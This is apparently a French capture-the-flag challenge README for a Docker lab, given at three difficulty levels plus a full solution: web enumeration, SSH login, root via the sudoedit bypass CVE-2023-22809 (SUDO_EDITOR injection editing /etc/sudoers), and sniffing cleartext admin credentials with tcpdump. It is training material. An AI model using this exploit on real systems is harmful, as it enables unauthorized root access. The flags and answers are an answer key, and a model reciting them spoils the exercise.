

# VERSION NIVEAU DIFFICILE

<!-- HEADER:auto -->
| Category | Level | Points | Author |
| --- | --- | --- | --- |
| forensics | Easy ★☆☆ | 150 | hbelle |
| privilege escalation | Medium ★★☆ | 250 | hbelle |
| network | Hard ★★★ | 350 | hbelle |

<!-- /HEADER:auto -->



# Sujet CTF - "La Quête du Stagiaire"

## Contexte

Vous êtes chargé de résoudre un défi de Capture The Flag (CTF) sur le site web
vulnérable de l'entreprise **Datalys**. Reconnaissance web, accès SSH, escalade de
privilèges et analyse réseau : la quête ne se termine qu'en remontant jusqu'à la
console d'administration du site.

Le site éparpille ses informations : à vous de recoller les morceaux pour entrer
sur le serveur, devenir root, puis **écouter ce qui circule « en clair »** sur la
machine pour franchir la dernière porte.

---

# VERSION NIVEAU MOYEN

# Sujet CTF - "La Quête du Stagiaire"

## Contexte

Même contexte que ci-dessus. Trois flags jalonnent le parcours.

### Étape 1 : Reconnaissance et accès

1. **Scan des sous-répertoires**
   Énumérez les répertoires du site web.
   <details><summary>Indice</summary>Hébergé sur `http://localhost:4280`. Outils : `dirb`, `gobuster`, `dirsearch` (wordlist `common.txt`).</details>

2. **Identité du stagiaire**
   Le site révèle qui est le stagiaire, et une page interne explique comment ses
   identifiants SSH ont été construits.
   <details><summary>Indice</summary>La page de l'équipe donne le nom. Une page d'onboarding cachée donne la règle (nom d'utilisateur) et la fiche RH (mot de passe).</details>

3. **Scan de ports**
   Trouvez le port SSH (il peut être étiqueté « inconnu »).
   <details><summary>Indice</summary>`nmap -p- localhost`</details>

4. **flag1**
   Connectez-vous en SSH et récupérez le flag dans le home.

### Étape 2 : Escalade de privilèges

1. Vous trouvez un fichier `flag2_hint` lisible uniquement via `sudoedit`.
   Vérifiez la version de `sudo` et cherchez l'exploit correspondant sur [Exploit-DB](https://www.exploit-db.com/).
   <details><summary>Indice</summary>`sudo --version` → la version est vulnérable. Cherchez un contournement de `sudoedit`.</details>

2. Exploitez-le pour éditer `/etc/sudoers`, devenez root, récupérez **flag2**.

### Étape 3 : Analyse réseau

1. Une fois **root**, un service tourne en permanence et envoie un *heartbeat*
   d'authentification **en HTTP clair** sur la boucle locale.
   <details><summary>Indice</summary>`/root/NOTES.txt`, `ps aux`, ou `ss -tlnp` → quelque chose écoute sur `127.0.0.1:8080`.</details>

2. Capturez cette trame (Wireshark/tcpdump sur `lo`) pour récupérer les
   identifiants de la **console d'administration**, puis connectez-vous sur
   `/admin` pour obtenir **flag3**.
   <details><summary>Indice</summary>Filtre Wireshark : `http.request.method == "POST"`.</details>

---

# VERSION NIVEAU FACILE

# Sujet CTF - "La Quête du Stagiaire"

## Contexte

Même contexte. Version très guidée.

## Objectifs

### Étape 1 : Reconnaissance et accès

1. **Scan des sous-répertoires** de `http://localhost:4280`
   ```bash
   gobuster dir -u http://localhost:4280 -w /usr/share/wordlists/dirb/common.txt
   ```
   Vous découvrez notamment `/team`, `/intern`, `/admin`, `/login`, `/robots.txt`…

2. **Nom d'utilisateur SSH**
   `http://localhost:4280/team` liste un **stagiaire**. La page cachée
   `http://localhost:4280/intern` explique la règle : *première lettre du prénom
   suivie du nom complet*.

3. **Mot de passe SSH**
   `http://localhost:4280/intern` donne aussi la **date de naissance** du stagiaire
   et précise que le mot de passe est au **format `AAAA-MM-JJ`**.

4. **Port SSH**
   ```bash
   nmap -p- localhost      # le port SSH est étiqueté comme inconnu
   ```

5. **flag1** : connectez-vous en SSH et lisez le flag dans le home.

### Étape 2 : Escalade de privilèges

1. `sudo -l` montre que vous pouvez `sudoedit /home/hints/flag2_hint`.
2. `sudo --version` → **1.9.0** (vulnérable à **CVE-2023-22809**, Exploit-DB **51217**).
3. Exploitez le contournement de `sudoedit` (injection `--` dans `SUDO_EDITOR`)
   pour éditer `/etc/sudoers`, ajoutez une règle root, puis lisez **flag2** dans `/root`.

### Étape 3 : Analyse réseau

1. En root, `cat /root/NOTES.txt` : un agent de télémétrie envoie ses identifiants
   **en clair** sur `127.0.0.1:8080`.
2. Capturez la trame :
   ```bash
   sudo tcpdump -i lo -A 'tcp port 8080'
   ```
   Vous lisez `username=admin&password=…` dans un `POST /api/login`.
3. Allez sur `http://localhost:4280/admin`, connectez-vous avec ces identifiants →
   **flag3** s'affiche.

---

# La Quête du Stagiaire - Solution

## Étape 1 — Reconnaissance et accès

1. **Scan des sous-répertoires**
   ```bash
   gobuster dir -u http://localhost:4280 -w /usr/share/wordlists/dirb/common.txt
   # (ou : dirb http://localhost:4280)
   ```
   On découvre entre autres `/team`, `/intern`, `/admin`, `/login`, `/robots.txt`,
   `/faq` (`intern` est présent dans `common.txt` / `directory-list-2.3-medium`).

2. **Identifiants SSH**
   - <http://localhost:4280/team> liste le stagiaire : **Zack Eph** (poste « Stagiaire »).
     → nom d'utilisateur = 1re lettre du prénom + nom complet = `z` + `eph` = **`zeph`**.
   - <http://localhost:4280/intern> (page d'onboarding cachée) rappelle la règle
     et donne la fiche RH : **date de naissance = 15 juin 1995**, mot de passe au
     format `AAAA-MM-JJ` → **`1995-06-15`**.

3. **Port SSH**
   ```bash
   nmap -p- localhost        # port SSH : 64242 (étiqueté "inconnu")
   ```

4. **flag1**
   ```bash
   ssh -p 64242 zeph@localhost      # mot de passe : 1995-06-15
   cat ~/flag1
   ```
   > **flag1** : `FLAG{Pas_mal_pour_un_stagiaire_...}`

## Étape 2 — Escalade de privilèges

1. **Repérage**
   ```bash
   sudo -l            # (ALL) sudoedit /home/hints/flag2_hint
   sudo --version     # Sudo version 1.9.0
   ```
   La version 1.9.0 est vulnérable à **CVE-2023-22809** ([Exploit-DB 51217](https://www.exploit-db.com/exploits/51217)) :
   un `--` dans la variable d'éditeur permet à `sudoedit` d'éditer un fichier
   arbitraire, hors de la restriction.

2. **Exploit → root → flag2**
   ```bash
   # ouvrir /etc/sudoers (hors restriction) via l'injection "--"
   SUDO_EDITOR='vi -- /etc/sudoers' sudoedit /home/hints/flag2_hint
   # dans l'éditeur, ajouter la ligne :
   #   zeph ALL=(ALL:ALL) ALL
   # puis :
   sudo cat /root/flag2
   ```
   > **flag2** : `FLAG{Pas_mal_finalement_les_updates...!?}` *(flag validant du challenge)*

## Étape 3 — Analyse réseau

1. **Indice (root)**
   ```bash
   cat /root/NOTES.txt      # l'agent de télémétrie envoie le heartbeat admin EN CLAIR sur :8080
   ss -tlnp | grep 8080     # un service écoute sur 127.0.0.1:8080
   ```

2. **Capture de la trame**
   ```bash
   sudo tcpdump -i lo -A 'tcp port 8080'
   # ou Wireshark : interface lo, filtre  http.request.method == "POST"
   ```
   On lit, en clair, dans un `POST /api/login` :
   ```text
   username=admin&password=Datalys_Pr0d!2026
   ```

3. **Login sur la console d'admin → flag3**
   Sur <http://localhost:4280/admin>, connectez-vous avec `admin` / `Datalys_Pr0d!2026`.
   La console affiche le flag.
   > **flag3** : `FLAG{Mais_oui_c'est_clair!}`

   *(Note : la force brute du formulaire ne mène nulle part — seuls les identifiants
   capturés en clair fonctionnent. « C'est clair »… parce que ça passe en clair.)*

---

## Infrastructure 

Quatre conteneurs sur le réseau `stagiaire` :

| Service | Rôle |
| --- | --- |
| `static_web` | site statique (http-server) |
| `auth` | backend du login `/admin` (valide les creds → renvoie flag3) |
| `nginx` | reverse-proxy (`/api/login` → `auth`, le reste → `static_web`) |
| `ctf` | SSH + sudo 1.9.0 vulnérable + agent de télémétrie |

Démarrage :
```bash
make            # = docker compose up --build
```
Variables à définir dans `.env` : `PORT_STAGIAIRE_HTTP`, `PORT_STAGIAIRE_SSH`,
`ROOT_USER`, `ROOT_PASS`, `INTERN_USER`, `INTERN_PASS`.
